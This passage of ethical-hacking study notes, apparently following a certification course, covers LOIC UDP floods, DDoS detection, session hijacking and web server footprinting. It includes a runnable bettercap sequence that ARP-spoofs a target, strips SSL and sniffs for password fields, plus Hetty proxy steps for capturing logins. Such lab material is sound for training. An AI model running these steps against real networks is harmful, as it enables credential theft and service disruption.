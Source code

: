 	loic.exe
		set target ip and lock on
		method UDP
		Threads 10
		and move the slidebar to the middle (speed)

    # Detect DoS and DDoS
	Anti_DDos_Guardian.exe
		Click on the machine with highest packets and click on Block IP to stop dos attack

## Session Hijacking 11

    # Hijack a session using OwaspZAP

    # Intercept HTTP traffic using bettercap
		bettercap -iface eth0
			>> net.probe on
			>> net.show
			>> set http.proxy.sslstrip true
			>> set arp.spoof.internal true 
			>> set arp.spoof.targets 10.10.1.11 
			>> http.proxy on
			>> arp.spoof on
			>> net.sniff on
			>> set net.sniff.regexp ‘.*password=.+’ 

    # Intercept HTTP traffic using Hetty
		hetty.exe
			go to http://localhost:8080 (to open hetty)
			click manage project -> create new project -> click on proxy logs
			in target machine set proxy with the ip address of my machine with port 8080 -> perform an action (login to a website)
			then go to proxy logs and observe the captured requests

## Evading IDS, Firewall 12
	
## Web Server Hacking 13

    # Footprint the web server

	python3 ghosteye.py 
		Enter your choice: 2	//for example
		Enter domain/IP : domain.com
	